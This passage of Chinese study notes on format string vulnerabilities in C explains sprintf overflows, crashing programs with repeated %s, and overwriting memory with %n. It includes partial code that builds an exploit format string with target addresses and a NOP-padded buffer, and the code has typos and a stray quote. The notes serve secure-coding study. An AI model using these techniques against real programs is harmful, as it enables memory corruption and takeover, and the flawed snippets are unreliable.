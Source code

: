 ### 8.2 典型的格式化输出函数和格式化符  

- `fprintf()——写入流, printf()——假定输出流stdout, sprintf()——写入数组`  
- `snprintf(),vprintf(),vsprintf(),vsnprintf()`  

### 8.3 格式化输出函数可能导致的安全问题  

- 当使用的格式字符串是由用户或其他非信任来源提供的时候，就有可能出现格式字符串漏洞  
- 当格式化输出例程对一个数据结构进行越界写时就可能会导致缓冲区溢出  
- `sprintf(buffer, "Wrong command: %s\n", user)`，大于495字节的字符串会越界：(512-16字符-1空字节)

### 8.4 可扩展的缓冲区  

不做边界检查的话，将溢出，可以覆盖

### 8.5 使程序崩溃  

- 在UNIX系统中，存取无效的指针会引起进程收到SIGSEGV信号，若不捕捉并处理，会导致程序非正常终止，核心转储  
- 与之类似，在Windows中读取一个未映射的地址将会导致系统 的一般保护错误并导致程序非正常终止。
- 比如 `printf("%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s");` 会触发无效指针存取或未映射的地址读取

### 8.6 覆写内存  

- 使用 `%n` 覆写内存  

- `printf("\xdc\xf5\x42\x01%08x.%08x.%08x%n”);`  

- 用于覆写一个地址的代码：

```c
static unsigned int already_written,width_field;
static unsigned int write_byte;
static char buffer[256];

already_written = 506;
//first byte
wirte_byte = 0x3c8;
already_wirtten %= 0x100;

width_field = (wirte_byte - already_wirtten) % 0x100;
if (width_field < 10) width_field +=0x100;
sprintf(buffer, "%%%du%%n",width_field);
strcat(format, buffer);
//后面的类似
```

- wirte_byte：下一个将要写入的字节值  
- already_wirtten 输出字符个数  
- 需要的宽度  



完整步骤：

```c
unsigned char exploit[1024]= "...\x90";
char format[1024];

strcpy(format,"\xaa\xaa\xaa\xaa");
strcat(format,"\xdc\xf5\x42\x01");
strcat(format,"\xaa\xaa\xaa\xaa");
strcat(format,"\xdd\xf5\x42\x01");
strcat(format,"\xaa\xaa\xaa\xaa");
strcat(format,"\xde\xf5\x42\x01");
strcat(format,"\xaa\xaa\xaa\xaa");
strcat(format,"\xdf\xf5\x42\x01");

for (i=0; i<61; i++){
```